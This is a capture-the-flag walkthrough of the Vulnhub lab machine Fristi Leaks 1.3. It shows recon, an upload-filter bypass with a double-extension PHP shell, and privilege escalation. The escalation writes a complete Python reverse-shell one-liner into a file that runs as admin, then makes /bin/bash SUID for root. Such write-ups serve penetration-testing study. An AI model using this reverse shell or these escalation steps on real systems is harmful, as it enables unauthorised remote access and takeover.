 # Fristi Leaks 1.3 - Vulnhub

# Recon

## Port / Service scan

`nmap -p- -T4 -sCV 192.168.163.144`

![image.png](image.png)

## Web ( 80 )

### Basic Enumeration

Identifying some technologies

`whatweb http://fristi.local/`

![image.png](images/image%201.png)

More information using a web extension

![image.png](images/image%202.png)

Found the directory `/fristi` that leads to an admin panel

![image.png](images/image%203.png)

We have some base64 data

![image.png](images/image%204.png)

When trying to decode we can see that its an image because of the errors, so decode that into a `.png` file

`echo ‘base64-code’ | base64 -d > image.png`

![image.png](images/image%205.png)

Note: when inspecting the page we got a user

![image.png](images/image%206.png)

`eezeepz:keKkeKKeKKeKkEkkEk`

### Foothold

And we are logged in

![image.png](images/image%207.png)

When we try to upload a simple `.php` file we get an error

![image.png](images/image%208.png)

Once we try double extension technique we can bypass this protection, the named file is `shell.php.jpg`

To execute commands go to

`http://fristi.local/fristi/uploads/shell.php.jpg`

And we received a reverse shell

![image.png](images/image%209.png)

## Privilege Escalation

Inside `/var/www/` we have this `notes.txt` talking about the eezeepz home directory

![image.png](images/image%2010.png)

Another note

![image.png](images/image%2011.png)

It runs commands as admin, so i just injected a python reverse shell into `runthis` file

`echo '/usr/bin/python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.163.135\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"' > /tmp/runthis`

Some interesting base64 code

![image.png](images/image%2012.png)

It seems to be a hash

![image.png](images/image%2013.png)

Doing the inverse of this python code

![image.png](images/image%2014.png)

We get the password

`LetThereBeFristi!`

Now we can login as `frsitigod` user

`sudo -l`

![image.png](images/image%2015.png)

Inside that directory we have the history file and it gives some hints

![image.png](images/image%2016.png)

### Get root

`sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom chmod +s /bin/bash`

Now just run `/bin/bash -p`

![image.png](images/image%2017.png)
